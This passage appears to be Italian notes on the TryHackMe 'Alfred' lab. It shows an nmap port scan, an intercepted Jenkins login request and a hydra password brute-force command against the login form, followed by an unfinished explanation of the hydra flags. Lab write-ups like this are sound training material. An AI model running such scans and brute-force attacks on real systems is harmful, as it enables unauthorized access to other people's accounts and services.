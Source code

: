 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/alfred

```
nmap -sV -O -Pn -p- -v 10.10.238.227
```

```
Discovered open port 80/tcp on 10.10.238.227
Discovered open port 8080/tcp on 10.10.238.227
Discovered open port 3389/tcp on 10.10.238.227

```
Quante porte sono aperte? (solo TCP)
```
3
```
andiamo su 
```
http://10.10.238.227:8080/login
```
Intercettiamo richiesta login con burp suite

```
POST /j_acegi_security_check HTTP/1.1
Host: 10.10.238.227:8080
User-Agent: J
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: http://10.10.238.227:8080
Connection: keep-alive
Referer: http://10.10.238.227:8080/loginError
Cookie: JSESSIONID.71ce619e=node01bp12v77slorfba42682o818r1.node0
Upgrade-Insecure-Requests: 1

j_username=admin&j_password=12345&from=&Submit=Sign+in
```


```
hydra -s 8080 -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt 10.10.238.227 http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=Sign+in:Invalid username or password' -f -o login_brute_force.txt
```
Il comando che hai fornito utilizza Hydra, uno strumento di attacco per la forza bruta, per tentare di effettuare il login a un'applicazione web. Ecco una spiegazione dettagliata di ciascuna parte del comando:

- `hydra`: Questo è il comando per avviare lo strumento Hydra.
    
- `-s 8080`: Specifica la porta su cui l'applicazione web è in ascolto. In questo caso, la porta 8080.
    
